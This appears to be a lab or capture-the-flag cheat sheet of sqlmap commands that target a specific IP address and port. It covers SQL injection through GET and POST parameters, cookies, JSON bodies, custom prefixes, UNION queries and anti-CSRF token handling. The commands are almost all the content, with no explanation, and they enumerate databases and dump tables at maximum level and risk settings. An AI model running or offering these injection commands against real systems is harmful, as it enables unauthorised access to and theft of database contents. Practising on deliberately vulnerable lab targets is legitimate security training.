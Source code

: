 ___
# GET

```bash
sqlmap -u "http://83.136.254.47:49729/case1.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

- --dbs
- --tables -D testdb
- --dump -T flag1 -D testdb
# POST

```bash
sqlmap -u "http://83.136.254.47:49729/case2.php" --data='id=1' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Cookie

```bash
sqlmap -u "http://83.136.254.47:49729/case3.php" --cookie="cookie=XSSisFun; id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# JSON

```bash
sqlmap -u "http://83.136.254.47:49729/case4.php" --data='{"id":1}' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# OR SQLi

```bash
sqlmap -u "http://83.136.254.47:49729/case5.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Non-standard boundaries

```bash
sqlmap -u "http://83.136.254.47:49729/case6.php?col=id" --cookie="cookie=XSSisFun" --level 5 --risk 3 -p col --batch --threads 10 --dbms=mysql --dbs --prefix='`)'
```

# UNION SQLi with adjustments

```bash
sqlmap http://83.136.254.47:49729/case7.php?id=1 --union-cols=5 --dump --no-cast
```

# anti-CSRF token bypass

```bash
sqlmap -u "http://83.136.254.47:49729/case8.php?id=1" --data="id=1&t0ken=N2zrnsP1IZI7DxBalvg1xgQ4q1cTf6Y4dumE1ts" --method POST --cookie="cookie=XSSisFun" --csrf-token="t0ken" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs
```
